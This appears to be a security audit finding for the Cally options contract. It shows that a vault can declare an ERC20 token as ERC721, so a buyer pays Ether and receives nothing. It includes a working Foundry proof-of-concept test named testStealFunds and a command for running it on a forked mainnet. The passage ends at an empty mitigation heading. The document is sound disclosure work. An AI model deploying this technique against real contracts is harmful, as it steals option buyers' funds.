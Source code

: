 When such a vault is initialized, another user can both buy and exercise the option without ever receiving any funds. The creator of the vault does receive the buyer's Ether tho. So it can cause a loss of funds.

### Proof of Concept

The trick is to create a vault with an ERC20 token but use ERC721 as the vault's type. Then, instead of calling `safeTransferFrom()` the function calls `transferFrom()` which won't catch the token returning false.

Here's a test that showcases the issue:

```solidity
// CreateVault.t.sol
    function testStealFunds() public {
        // address of 0x on mainnet
        address t = address(0xE41d2489571d322189246DaFA5ebDe1F4699F498);
        vm.startPrank(babe);
        require(ERC20(t).balanceOf(babe) == 0);
        uint vaultId = c.createVault(100, t, 1, 1, 1, 0, Cally.TokenType.ERC721);
        // check that neither the Cally contract nor the vault creator
        // had any 0x tokens
        require(ERC20(t).balanceOf(babe) == 0);
        require(ERC20(t).balanceOf(address(c)) == 0);

        // check whether vault was created properly
        Cally.Vault memory v = c.vaults(vaultId);
        require(v.token == t);
        require(v.tokenIdOrAmount == 100);
        vm.stopPrank();
        // So now there's a vault for 100 0x tokens although the Cally contract doesn't
        // have any.
        // If someone buys & exercises the option they won't receive any tokens.
        uint premium = 0.025 ether;
        uint strike = 2 ether;
        require(address(c).balance == 0, "shouldn't have any balance at the beginning");
        require(payable(address(this)).balance > 0, "not enough balance");

        uint optionId = c.buyOption{value: premium}(vaultId);
        c.exercise{value: strike}(optionId);

        // buyer of option (`address(this)`) got zero 0x tokens
        // But buyer lost their Ether
        require(ERC20(t).balanceOf(address(this)) == 0);
        require(address(c).balance > 0, "got some money");
    }
```

To run it, you need to use forge's forking mode: `forge test --fork-url <alchemy/infura URL> --match testStealFunds`

### Recommended Mitigation Steps

